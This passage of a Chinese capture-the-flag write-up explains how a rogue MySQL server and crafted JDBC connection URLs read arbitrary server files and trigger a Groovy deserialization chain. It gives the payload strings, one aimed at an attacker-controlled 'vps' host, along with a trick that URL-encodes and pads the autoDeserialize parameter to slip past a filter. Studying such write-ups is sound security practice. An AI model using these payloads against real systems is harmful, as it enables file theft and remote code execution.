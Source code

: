 使用`https://github.com/allyshka/Rogue-MySql-Server`读取文件, 但是falg并不在`/flag`里面

![image-20221106134934426](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-e610e8f218dcdf3dd864d427a56caa0a531aed5d.png)

先是读取/etc/passwd成功, 但是读取/flag失败了

![image-20221106135242976](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8a02c0ee0e23d40c31e7de7d404edd1025abd4cc.png)

通过读取`file:///`或`netdoc:///`列根目录拿到flag位置

![image-20221106135402797](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-c41ed39b984d23d57621d67f3a35980e3afecc8d.png)

读取flag

![image-20221106135509562](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-cdf3047c1dd053d8553599353631d0619bd8dfb3.png)

easy\_java
----------

这个题没有源码, 直接访问就是提示输入一个url参数, 值为jdbc链接

如果做了上面的NoRCE那就很简单了, 继续使用上面的方式进行任意文件读取拿到jar包进行分析(读取`file:///`列目录得到程序jar包位置`/application/application.jar`)

```http
url=jdbc:mysql://vps:port/ttt?allowLoadLocalInfile=true&allowUrlInLocalInfile=true
```

然后对源码进行分析, 直接看依赖就测试确认打`Grovy1`这个链子本地测试可用

然后源码分析发现是对url进行了`autoDeserialize`参数的检验, 要求jdbc请求链接不能定义autoDeserialize参数, 这里使用url编码方式绕过, 因为`com.mysql.jdbc.Driver#getConnection`连接jdbc链接的时候会对其进行url解码

绕过了autoDeserialize, 确认了利用链, 然后就是直接设置[rogue\_mysql\_server](https://github.com/rmb122/rogue_mysql_server)的`config.yaml`配置Grovy1的利用链即可

```http
jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:grovy1&%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
```

![image-20221107000817821](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-90d2aec9315fe74431be0af853e05e25e5eca7af.png)执行测试语句成功:

![image-20221107000915001](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-a9e0d038eb2324749a6e7e13d13c74f3dbcfebf7.png)

那么来到服务程序中打一下(NONONO的输出是我修改代码才显示的,代码改动看下面):

![image-20221107002355402](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-f4771887bcc2bd4bd95783ae20c41af105ff95e1.png)

可以看到并没有成功, 为什么?

这一波属实小丑了, 因为当时没注意加空格的问题, 所以一直都是有时候可以有时候不行(因为有时候我带了空格有时候没带), 直到比赛结束之后注意到这点

![image-20221107004504487](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-23b76a2a2a5d2657d49494b161d77ed1b2c1f00f.png)

我们在`%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65`的后面加个空格就可以执行成功
